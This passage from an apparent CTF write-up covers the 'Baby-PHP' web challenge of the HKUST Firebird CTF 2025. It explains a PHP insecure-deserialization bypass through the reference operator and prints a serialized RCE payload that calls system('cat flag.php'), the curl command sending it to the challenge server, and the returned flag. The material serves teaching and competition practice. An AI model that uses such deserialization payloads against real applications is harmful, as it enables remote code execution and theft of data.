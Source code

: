 Therefore, we can set property `random_number` is a reference to the `guess` property, thus the check is bypassed.

## Exploitation

Armed with above information, we can craft the following serialized object string to gain RCE!

<details><summary markdown="span"><strong>payload.php</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Baby-PHP)-[2025.01.13|17:31:31(HKT)]
└> php payload.php
O:1:"A":1:{s:5:"class";O:1:"B":3:{s:7:"command";s:23:"system('cat flag.php');";s:5:"guess";i:1;s:13:"random_number";R:4;}}
[...]
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Baby-PHP)-[2025.01.13|17:33:41(HKT)]
└> curl --get http://phoenix-chal.firebird.sh:36010/ --data-urlencode "payload=O:1:\"A\":1:{s:5:\"class\";O:1:\"B\":3:{s:7:\"command\";s:23:\"system('cat flag.php');\";s:5:\"guess\";i:1;s:13:\"random_number\";R:4;}}"
<?php
$flag = "firebird{The_challenge_of_addressing_PHP_bugs_is_exacerbated_by_the_languages_flexibility_and_dynamic_nature_which_introduces_a_myriad_of_potential_pitfalls_and_edge_cases_that_can_be_difficult_to_anticipate_and_mitigate}"; 
echo "flag{You_win_This_is_the_flag}";
?>
```

- **Flag: `firebird{The_challenge_of_addressing_PHP_bugs_is_exacerbated_by_the_languages_flexibility_and_dynamic_nature_which_introduces_a_myriad_of_potential_pitfalls_and_edge_cases_that_can_be_difficult_to_anticipate_and_mitigate}`**

## Conclusion

What we've learned:

1. PHP insecure deserialization & bypass via reference operator